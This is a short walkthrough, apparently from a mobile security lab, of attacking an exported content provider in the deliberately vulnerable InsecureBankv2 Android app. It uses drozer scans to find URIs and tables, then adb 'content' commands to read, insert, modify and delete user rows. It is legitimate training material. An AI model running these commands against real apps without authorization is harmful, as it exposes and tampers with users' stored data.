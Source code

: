 ```bash
dz> run scanner.provider.finduris -a com.android.insecurebankv2
# ...
For sure accessible content URIs:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

Let's get table names:

```bash
dz> run scanner.provider.sqltables -a com.android.insecurebankv2
Attempting to run shell module
Scanning com.android.insecurebankv2...
Accessible tables for uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/:
  android_metadata
  names
  sqlite_sequence

Accessible tables for uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers:
  android_metadata
  names
  sqlite_sequence
```

Let's use `adb` to send query to URI:

```bash
$ adb shell
$ content query --uri "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers"

Row: 0 id=1, name=jack
```

We now know we are able to access the URI.

Let's do CRUD operations.

```bash
# Insert a new row into the `names` table:
content insert --uri "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers"  --bind name:s:'attacker'

# Then verify it:
content query --uri ...
Row: 0 id=2, name=attacker
Row: 1 id=1, name=jack

# Update (Modify Existing Row)
content update --uri "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers"  --bind name:s:'joker' --where 'id=1'

# Verify it
Row: 0 id=2, name=attacker
Row: 1 id=1, name=joker

# Delete (Remove Rows)
content delete --uri "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers"  --where "id=2"

# Verify it
Row: 0 id=1, name=joker
```
